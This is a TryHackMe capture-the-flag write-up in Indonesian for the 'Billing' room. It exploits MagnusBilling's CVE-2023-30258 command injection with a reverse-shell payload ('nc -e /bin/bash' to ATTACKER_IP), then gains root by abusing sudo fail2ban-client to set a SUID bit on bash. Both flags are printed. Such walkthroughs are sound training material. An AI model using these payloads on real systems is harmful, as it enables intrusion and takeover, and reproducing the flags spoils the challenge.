# Billing — TryHackMe Writeup

**Target:** Billing  
**Platform:** TryHackMe  
**Difficulty:** Easy  
**Kategori:** Web, CVE, Privilege Escalation  

---

## Recon

nmap -sC -sV -T4 TARGET

> -sC → jalankan default scripts (enum basic)
> -sV → deteksi versi service
> -T4 → scan lebih cepat (agresif)



22/tcp    open  ssh    OpenSSH (Debian)  
80/tcp    open  http   Apache 2.4.62 (Debian)  
3306/tcp  open  mysql  MariaDB (unauthorized)  

`http-title` menunjukkan **MagnusBilling**, menjadi entry point utama.

---

## Enumerasi Web

Aplikasi ditemukan di `/mbilling`.



Bruteforce tidak relevan (out of scope), sehingga fokus ke discovery endpoint.

gobuster dir -u http://TARGET/mbilling -w common.txt -b 404,403

> -u → target URL  
> -w → wordlist  
> -b → hide status code (404 & 403 diabaikan)



Path yang ditemukan:

- /archive (301)  
- /resources (301)  
- /lib (301)  
- /tmp (301)  
- /LICENSE (200)  

---

## Identifikasi Versi

File `/README.md` mengindikasikan:



MagnusBilling v7.x.x

---

## Riset Vulnerability

searchsploit magnusbilling 7

> mencari exploit publik berdasarkan nama software



CVE-2023-30258  
Unauthenticated Command Injection  

Detail:



- Parameter: democ  
- Sink: exec()  
- Constraint: input > 5 karakter  

---

## Analisis Source Code



exec("touch " . $_GET['democ'] . '.txt');

**Penjelasan:**
- `$_GET['democ']` langsung dipakai di command OS  
- Tidak ada sanitasi → bisa inject command  
- `.txt` hanya suffix, tidak mencegah injection  

---

## Eksploitasi

### Verifikasi Blind RCE

time curl "http://TARGET/...democ=test123;sleep 5;"

> time → mengukur response time  
> sleep 5 → delay jika command berhasil dieksekusi  



Delay ±5 detik → RCE confirmed (blind, tidak ada output)

---

### Mendapatkan Reverse Shell

Listener:

nc -lvnp 9001

> -l → listen  
> -v → verbose  
> -n → no DNS resolve  
> -p → port  

Payload:

curl "http://TARGET/mbilling/lib/icepay/icepay.php?democ=/dev/null;nc%20-e%20%2Fbin%2Fbash%20ATTACKER_IP%209001;"

**Penjelasan payload:**

- `/dev/null` → dummy input (memenuhi >5 karakter, tanpa bikin file)  
- `;` → memutus command `touch`  
- `nc -e /bin/bash` → kirim shell ke attacker  

Command real yang dijalankan:

touch /dev/null; nc -e /bin/bash ATTACKER_IP 9001;

Shell didapat sebagai user `asterisk`.



Upgrade TTY:

python3 -c 'import pty;pty.spawn("/bin/bash")'  
export TERM=xterm  

> supaya shell lebih interaktif (tab, clear, dll)

---

## Post Exploitation

### User Flag

cat /home/magnus/user.txt  

THM{4a6831d5f124b25eefb1e92e0f0da4ca}

---

## Privilege Escalation — Fail2Ban Abuse

### Enumerasi Sudo

sudo -l



(ALL) NOPASSWD: /usr/bin/fail2ban-client  

> user dapat menjalankan fail2ban-client sebagai root tanpa password

---

### Initial Research

Karena `fail2ban-client` tidak umum digunakan untuk privilege escalation, dilakukan riset terlebih dahulu untuk memahami fungsinya.

Fail2Ban adalah tool yang:
- memonitor log (SSH, web, dll)
- mendeteksi aktivitas mencurigakan
- menjalankan aksi (ban IP) secara otomatis

Command yang digunakan untuk eksplorasi:

sudo fail2ban-client status

> melihat daftar jail aktif

sudo fail2ban-client status ip-blacklist

> melihat detail jail tertentu

Dari hasil ini, ditemukan bahwa setiap jail memiliki action seperti:
- actionban → dijalankan saat IP diblokir

---

### Insight Vulnerability

Karena:
- `fail2ban-client` dijalankan via sudo (root)
- action dapat dimodifikasi
- action akan dieksekusi saat event terjadi

Maka:

**Jika action bisa diubah → kita bisa menjalankan command sebagai root**

---

### Exploit

sudo fail2ban-client set ip-blacklist action iptables-allports-ASTERISK actionban "chmod +s /bin/bash"

> set → mengubah konfigurasi jail  
> actionban → command yang akan dijalankan saat ban  
> chmod +s → memberi SUID ke bash  

---

### Trigger Payload

sudo fail2ban-client set ip-blacklist banip 123.13.32.12

> banip → memicu event ban → menjalankan payload

---

### Root Shell

/bin/bash -p  

> -p → mempertahankan privilege root dari SUID

id  

euid=0(root)



---

### Root Flag

cat /root/root.txt  

THM{33ad5b530e71a172648f424ec23fae60}

---

## Ringkasan

Recon → Nmap  
Enum → Gobuster + README  
Exploit → CVE-2023-30258 (Command Injection)  
Initial Access → Reverse Shell (nc)  
PrivEsc → Fail2Ban action injection  
Root → SUID bash  

---

## Takeaway

- Input ke `exec()` tanpa sanitasi = RCE  
- Blind RCE bisa diverifikasi via delay (`sleep`)  
- Payload harus menyesuaikan constraint (>5 char)  
